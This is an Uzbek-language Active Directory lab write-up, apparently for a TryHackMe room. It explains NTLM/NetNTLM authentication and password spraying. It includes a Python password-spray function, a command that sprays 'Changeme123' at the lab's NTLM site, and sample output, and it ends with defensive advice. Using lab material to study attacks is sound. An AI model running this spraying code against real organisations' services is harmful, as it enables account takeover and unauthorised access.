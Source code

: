 **NTLM va NetNTLM**

**New Technology LAN Manager (NTLM)** — bu Active Directory (AD) tizimida foydalanuvchilarni autentifikatsiya qilish (ya'ni, kimligini tasdiqlash) uchun ishlatiladigan xavfsizlik protokollari to‘plamidir. NTLM foydalanuvchini autentifikatsiya qilish uchun **NetNTLM** deb ataladigan **challenge-response** (chaqiruv-javob) sxemasi asosida ishlatiladi.

Bu autentifikatsiya mexanizmi tarmoqdagi xizmatlar tomonidan keng qo‘llaniladi. Biroq, **NetNTLM ishlatadigan xizmatlar ba’zan internetga ochiq bo‘ladi**, ya’ni tashqi hujumchilar ham ularga ulana olishadi. Quyidagi holatlar bunga misol bo‘la oladi:

* Ichki Exchange (pochta) serverlari — masalan, Outlook Web App (OWA) login portali.
* Internetga ochiq bo‘lgan RDP (Remote Desktop Protocol) xizmatlari.
* Active Directory bilan bog‘langan VPN nuqtalari (endpoints).
* Internet orqali ochiladigan va NetNTLM'dan foydalanadigan veb-ilovalar.

**NetNTLM**, ko‘pincha **Windows Authentication** yoki shunchaki **NTLM Authentication** deb ham ataladi. Bu autentifikatsiya usuli ilovaga foydalanuvchi va Active Directory (AD) o‘rtasida **vositachi** (middle man) bo‘lish imkonini beradi.

Ya’ni, barcha autentifikatsiya ma’lumotlari **challenge** shaklida Domain Controller’ga (AD serveriga) yuboriladi. Agar challenge’ga to‘g‘ri javob berilsa, ilova foydalanuvchini muvaffaqiyatli autentifikatsiyadan o‘tkazadi.

Bu degani, ilova foydalanuvchini bevosita o‘zida autentifikatsiya qilmaydi, balki foydalanuvchining nomidan AD orqali qilinadi. Shuning uchun, ilova foydalanuvchining AD login va parolini saqlamaydi — bunday ma’lumotlar faqat Domain Controller’da saqlanishi kerak.

---

### **Tushuntirish (sodda qilib):**

1. **NTLM** bu Microsoft'ning foydalanuvchini aniqlash (autentifikatsiya) qilish usuli.
2. **NetNTLM** — NTLM asosida ishlaydigan challenge-response tizimi. Bu tizimda foydalanuvchi login qilmoqchi bo‘lsa, unga maxsus savol (challenge) yuboriladi va foydalanuvchi to‘g‘ri javob (response) qaytarishi kerak.
3. NetNTLM ba’zi xizmatlar (mail, VPN, RDP, saytlar) orqali tashqaridan ochiq bo‘lishi mumkin, bu esa hujumchilarga imkon yaratadi.
4. NetNTLM yordamida saytlar yoki ilovalar foydalanuvchini **bevosita** emas, **vositachi sifatida** AD orqali autentifikatsiya qiladi.
5. Bu usul foydalanuvchi parolini ilova o‘zida saqlamaslikka yordam beradi — bu esa xavfsizlikni oshiradi.

![NTLM](https://raw.githubusercontent.com/akhatkulov/cheatsheets-for-windows/refs/heads/main/Breaching%20Active%20Directory/NTLM%20Authenticated%20Services/c9113ad0ff443dd0973736552e85aa69%20(1).png)


**2-vazifada** aytilganidek, internetga ochiq xizmatlar oldin topilgan login ma'lumotlarini sinash uchun ajoyib joydir. Biroq, bu xizmatlardan to‘g‘ridan-to‘g‘ri foydalanib, Active Directory (AD) tizimining haqiqiy login ma’lumotlarini aniqlashga ham urinib ko‘rish mumkin.

Masalan, agar siz OSINT yordamida haqiqiy elektron pochta manzillarini topgan bo‘lsangiz, bu xizmatlar orqali **brute-force** (bir necha parollarni ketma-ket urinish) hujumlarini amalga oshirishga urinish mumkin bo‘ladi.

### Ammo muammo shundaki:

Ko‘pgina AD tizimlarida **account lockout** (hisobni vaqtincha bloklash) mexanizmi yoqilgan bo‘ladi. Bu holatda har bir foydalanuvchi uchun ko‘p marta noto‘g‘ri parol kiritilsa, u hisob vaqtincha bloklanadi. Shuning uchun, **klassik brute-force** usuli ishlamaydi.

### Shuning uchun nima qilish kerak?

**Password spraying** deb ataladigan usuldan foydalaniladi.

#### Password Spraying nima?

* Sizda foydalanuvchi nomlari (username) ro‘yxati bo‘ladi.
* Siz **bitta parol** (masalan, "Changeme123") bilan **hamma foydalanuvchilarni** sinab chiqasiz.
* Bu AD lockout mexanizmini chetlab o‘tadi, chunki har bir foydalanuvchi uchun faqat **bitta** urinish bo‘ladi.
* Ammo bu ham xavfli, chunki bu usul ko‘p noto‘g‘ri urinishlar sababli monitoring vositalari orqali aniqlanishi mumkin.

### Vazifa konteksti:

* Sizga OSINT orqali topilgan username'lar ro‘yxati berilgan.
* Shuningdek, kompaniya foydalanuvchilari odatda **"Changeme123"** parolidan boshlashlari aniqlangan.
* Ko‘plab foydalanuvchilar parollarini o‘zgartirishni unutishadi.
* Sizdan berilgan URL'dagi web-ilovaga qarshi password spraying hujumi qilish so‘raladi:
  **[http://ntlmauth.za.tryhackme.com](http://ntlmauth.za.tryhackme.com)**

Ushbu sayt Windows Authentication so‘raydi (NetNTLM asosida).

> **Eslatma**: Windows Authentication uchun **Chrome** ishlatish tavsiya qilinadi. Firefox'ning bu boradagi pluginlari ko‘p hollarda ishlamaydi.

---

### **Script Tushuntirishi:**

Sizga quyidagi Python funksiyasi berilgan:

```python
def password_spray(self, password, url):
    print ("[*] Starting passwords spray attack using the following password: " + password)
    count = 0
    for user in self.users:
        response = requests.get(url, auth=HttpNtlmAuth(self.fqdn + "\\" + user, password))
        if (response.status_code == self.HTTP_AUTH_SUCCEED_CODE):
            print ("[+] Valid credential pair found! Username: " + user + " Password: " + password)
            count += 1
            continue
        if (self.verbose):
            if (response.status_code == self.HTTP_AUTH_FAILED_CODE):
                print ("[-] Failed login with Username: " + user)
    print ("[*] Password spray attack completed, " + str(count) + " valid credential pairs found")
```

#### **Bu funksiya nima qiladi?**

1. **Bitta parolni** (`password`) olib, sizda bor barcha `user`lar bilan sinab chiqadi.
2. Har bir user uchun `requests.get()` orqali HTTP so‘rov yuboriladi.

   * Bu so‘rov NTLM autentifikatsiya bilan birga boradi.
3. Agar server `200 OK` javob bersa, bu user-parol juftligi **to‘g‘ri**.
4. Agar `401 Unauthorized` bo‘lsa, bu noto‘g‘ri.
5. Natijada necha nafar foydalanuvchi uchun bu parol to‘g‘ri chiqqani hisoblab beriladi.

---

### **Xulosa va xavfsizlik tavsiyasi:**

* Bu hujum turlari **real tashkilotlarga juda katta xavf** tug‘diradi.
* Shuning uchun tashkilotlar:

  * Har bir foydalanuvchiga **parolni almashtirishni majburiy** qilishlari kerak.
  * IP asosida **authentication limit** joriy etishlari kerak.
  * Keraksiz internetga ochiq xizmatlarni **yopish yoki cheklash** kerak.
  * Kerakli joylarda **MFA (multi-factor authentication)** joriy etilishi kerak.


### 🔐 **Parolni Purkash (Password Spraying)**

Agar siz **AttackBox** dan foydalanayotgan bo‘lsangiz, **parolni purkash (password spraying)** script fayli va username ro‘yxati fayli quyidagi papkada joylashgan bo‘ladi:

```
/root/Rooms/BreachingAD/task3/
```

### 🖥 Skriptni ishga tushirish:

Quyidagi buyruq orqali skriptni ishga tushiramiz:

```bash
python ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>
```

#### Parametrlarning ma’nosi:

| Parametr      | Tavsif                                                                                                   |
| ------------- | -------------------------------------------------------------------------------------------------------- |
| `<userfile>`  | Username’lar ro‘yxati yozilgan fayl. Misol: `usernames.txt`                                              |
| `<fqdn>`      | Tashkilotga tegishli to‘liq domen nomi. Misol: `za.tryhackme.com`                                        |
| `<password>`  | Hujumda sinaladigan yagona parol. Misol: `Changeme123`                                                   |
| `<attackurl>` | Windows Authentication’ni qo‘llab-quvvatlaydigan sayt manzili. Misol: `http://ntlmauth.za.tryhackme.com` |

### 🧪 Misol hujum:

Quyidagi buyruq ishlatilgan:

```bash
python3 ntlm_passwordspray.py -u usernames.txt -f za.tryhackme.com -p Changeme123 -a http://ntlmauth.za.tryhackme.com/
```

Natijada chiqadigan loglar:

```
[*] Starting passwords spray attack using the following password: Changeme123
[-] Failed login with Username: anthony.reynolds
[-] Failed login with Username: henry.taylor
[...]
[+] Valid credential pair found! Username: [...] Password: Changeme123
[-] Failed login with Username: louise.talbot
[*] Password spray attack completed, [X] valid credential pairs found
```

### ✅ **Natija:**

Bu hujum orqali siz **OSINT (tashqi kuzatuv orqali olingan ma’lumotlar)** va **NetNTLM asosidagi Password Spraying** texnikasidan foydalanib:

* Bir necha foydalanuvchi nomlariga bitta parolni urinasiz.
* Shundan keyin bir nechta **to‘g‘ri login-parol** juftligini qo‘lga kiritishingiz mumkin.

Bu login ma’lumotlari sizga keyinchalik **Active Directory’ni ichkaridan tahlil qilish** (enumeration) uchun kerak bo‘ladi — masalan, kim qanday rolga ega, qanday kompyuterlar bor, qanday xizmatlar ishlatilmoqda va hokazo.

---

### 🧠 **Esda tuting:**

* Password spraying — bu **"har bir foydalanuvchiga bitta parol"** usulidir.
* Bu hujumdan so‘ng siz haqiqiy AD foydalanuvchisining login va parolini bilib olgan bo‘lasiz.
* Endi siz **kerakli asboblar (BloodHound, CrackMapExec, PowerView)** orqali AD’ni ichkaridan o‘rganishingiz mumkin.
